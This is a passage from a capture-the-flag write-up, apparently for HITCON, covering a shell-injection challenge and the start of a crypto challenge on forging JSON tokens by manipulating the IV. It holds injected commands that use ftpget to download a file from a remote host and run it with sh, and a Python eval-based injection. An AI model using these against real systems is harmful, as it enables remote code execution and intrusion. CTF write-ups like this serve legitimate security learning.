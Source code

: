 Because `wget` in busybox cannot specifiy the name without `-o`, we use `ftpget` to download the file with a custom filename.

```sh
ls ()ftpget 921608994:10001 meow123 meow123
ls ()sh meow123
```

Flag: `hitcon{r3v3ng3_f0r_semic010n_4nd_th4nks}`

#### Solutoin 2

by bookgin

```
> ls ()python3
> ls
> find =chr(0x5f)+chr(0x5f)+ ...
> find
> id ,eval(find)
> id
```


## Crypto

### another secret note

In this challenge, this key will never change

```python
open('key','rb').read()
```

The service given two mainly function :

* register :
    
    * Encrypt `{'secret': 'hitcon{JSON_is_5', 'who': 'user', "name": @name}` with any name in ascii character

* login :

    1. Decrypt the token, and you can set the IV if you want. 
    (Note that if you set the IV, The default IV will change. We can use this feature to do something.)

    2. Make 'cmd' exists in decrypted token, you can execute given function.

        * get_secret 
        * get_time
        * note 
        * read_note
    
    3. Encrypted the data again.

We know that `json.loads` will format the json and merge the same key:

```python
json.loads('{"a":"z","b":"y"}')
# -> {'a': 'z', 'b': 'y'}
json.loads('{"":"a","":"b"}')
# -> {'': 'b'}
```
